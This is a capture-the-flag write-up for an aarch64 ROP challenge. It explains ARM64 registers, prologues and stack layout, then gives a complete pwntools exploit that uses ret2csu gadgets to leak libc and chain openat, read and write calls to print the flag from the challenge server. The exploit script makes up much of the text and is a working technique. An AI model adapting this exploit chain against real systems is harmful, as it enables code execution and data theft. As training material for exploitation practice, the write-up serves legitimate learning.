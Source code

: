 # generic-rop-challenge

<div class="hidden">
    keywords: ARM64, aarch46, ROP, ret2csu
</div>

> [!WARNING]
> Not sure why the exploit does not work in non-debug mode locally, but works for local debug-mode and remote non-debug

## aarch64 (ARM64)

### Tools

References: <https://docs.pwntools.com/en/stable/qemu.html>

Debugging (**choose either one**):

- gdb-multiarch: `sudo apt-get install gdb-multiarch`
- gcc toolchain (with gdb): <https://github.com/xpack-dev-tools/aarch64-none-elf-gcc-xpack/>

Running:

- qemu: `sudo apt-get install qemu-user-static`
- libs: `sudo apt-get install libc6-arm64-cross` installs to `/usr/aarch64-linux-gnu/`

Running the binary

```sh
# non-debug mode
qemu-aarch64-static ./binary

# debug mode (gdbserver) on port 1234
qemu-aarch64-static -g 1234 ./binary

# in case of the loader not provided (`ld-linux-aarch64.so.1`), use the loader from `libc-arm64-cross`
qemu-aarch64-static -L /usr/aarch64-linux-gnu/ ./binary
```

Attach debugger with `GEF`

```sh
gef➤  gef-remote --qemu-user localhost 1234
```


### Assembly

References: <http://blog.perfect.blue/ROPing-on-Aarch64>

#### Registers

- `x0` to `x7` are used to pass arguments
- `x29` is equivalent to `rbp` in `x86`
- `x30` stores return address

#### Function Prologue

Pre-indexed performs the offset operation then the assembly instruction:

- Add `N` to `sp` (`sp = sp + N`)
- Stores old frame pointer, `x29`, to `[sp]` and return address, `x30`, to `[sp + 8]`

```armasm
stp x29, x30, [sp, #N]!  ; pre-indexed [base, #offset]!
mov x29, sp
```

#### Function Epilogue

Post-indexed performs the assembly instruction then the offset operation

- Load `[sp]` to `x29` and `[sp + 8]` to `x30`
- Add `N` to `sp` (`sp = sp + N`)

```armasm
ldp x29, x30, [sp], #N  ; post-indexed [base], #offset
```

#### Stack Layout

```text
+--------------------------+ ^ Lower memory address
| callee's saved x29       | |
+--------------------------+ |
| callee's saved x30       | |
+--------------------------+ | Stack growth direction
| callee's local variables |
+--------------------------+
| caller's saved x29       |
+--------------------------+
| caller's saved x30       |
+--------------------------+
| caller's local variables |
+--------------------------+   Higher memory address
```

Unlike in `x86` where saved `rbp` and `rip` are below the local variables which allow us to overwrite the saved `rip` and immediately return to our desired address,
in `ARM64` we overwrite the callers's return address instead due to the stack layout which means that we would first return normally to the caller and only then return to our desired address

## Solution

```py
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

ld = ELF("./ld-linux-aarch64.so.1")
libc = ELF("./libc.so.6")
elf = context.binary = ELF("./vuln")


def start(argv=[], *a, **kw):
    global flag_path
    host = args.HOST or 'generic-rop-challenge.chal.imaginaryctf.org'
    port = int(args.PORT or 42042)
    if args.REMOTE:
        flag_path = b"/home/user/flag.txt\x00"
        return remote(host, port)
    if args.GDB:
        flag_path = b"/run/shm/flag.txt\x00"
        return process([qemu, "-g", str(debug_port), elf.path])
    else:
        flag_path = b"/run/shm/flag.txt\x00"
        return process([qemu, elf.path] + argv, env=env, *a, **kw)


env = {}
qemu = "/usr/bin/qemu-aarch64-static"
debug_port = 1234
flag_path = b""
io = start()

pad = 80 - 0x10
main_x29 = b"BBBBBBBB"
bss = elf.bss(0x200)

csu_1 = 0x400948
csu_2 = 0x400928


def ret2csu(w0, x1, x2, func_ptr, next_gadget):
    payload = b"A" * pad + main_x29 + p64(csu_1)
    payload += flat(bss, p64(csu_2))
    payload += flat(0, 1)  # x19, x20
    payload += flat(func_ptr, w0)  # x21, x22
    payload += flat(x1, x2)  # x23, x24
    payload += flat(bss, next_gadget)
    return payload


# Leak LIBC
payload = ret2csu(elf.got["puts"], 0, 0, elf.got["puts"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
leak_puts = u64(io.recvline(keepends=False).ljust(8, b"\x00"))
if not args.REMOTE:
    leak_puts |= 0x4000000000
log.info(f"{leak_puts=:#x}")

libc.address = leak_puts - libc.symbols["puts"]
log.info(f"{libc.address=:#x}")

# gets(bss) // stdin: /home/user/flag.txt
pause()
log.info(f"setup flag path string @ bss + 0x500")
log.info(f"{flag_path=}")
flag_path_addr = elf.bss(0x500)
payload = ret2csu(flag_path_addr, 0, 0, elf.got["gets"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
io.sendline(flag_path)  # absolute path to ignore `dirfd` for `openat`

# gets(bss) // stdin: libc.symbols["openat"]
openat_fptr = elf.bss(0x600)
log.info(f"setup openat function pointer @ bss + 0x600")
payload = ret2csu(openat_fptr, 0, 0, elf.got["gets"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
io.sendline(p64(libc.symbols["openat"]))

# fini_ptr = 0x400e20

# openat(0, flag_path_addr, 0)
log.info(f"openat(0, flag_path_addr, 0)")
payload = ret2csu(0, flag_path_addr, 0, openat_fptr, elf.symbols["main"])
io.sendlineafter(b"below\n", payload)

# gets(bss) // stdin: libc.symbols["read"]
read_fptr = elf.bss(0x600)
log.info(f"setup read function pointer @ bss + 0x600")
payload = ret2csu(read_fptr, 0, 0, elf.got["gets"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
io.sendline(p64(libc.symbols["read"]))

# read(5, flag_addr, 0x100)
flag_addr = elf.bss(0x700)
log.info(f"read(5, flag_addr, 0x100)")  # trial-and-error to find the proper fd
payload = ret2csu(5, flag_addr, 0x100, read_fptr, elf.symbols["main"])
io.sendlineafter(b"below\n", payload)

# gets(bss) // stdin: libc.symbols["write"]
write_fptr = elf.bss(0x600)
log.info(f"setup write function pointer @ bss + 0x600")
payload = ret2csu(write_fptr, 0, 0, elf.got["gets"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
io.sendline(p64(libc.symbols["write"]))

# write(1, flag_addr, 0x100)
payload = ret2csu(1, flag_addr, 0x100, write_fptr, elf.symbols["main"])
io.sendlineafter(b"below\n", payload)

io.interactive()
```
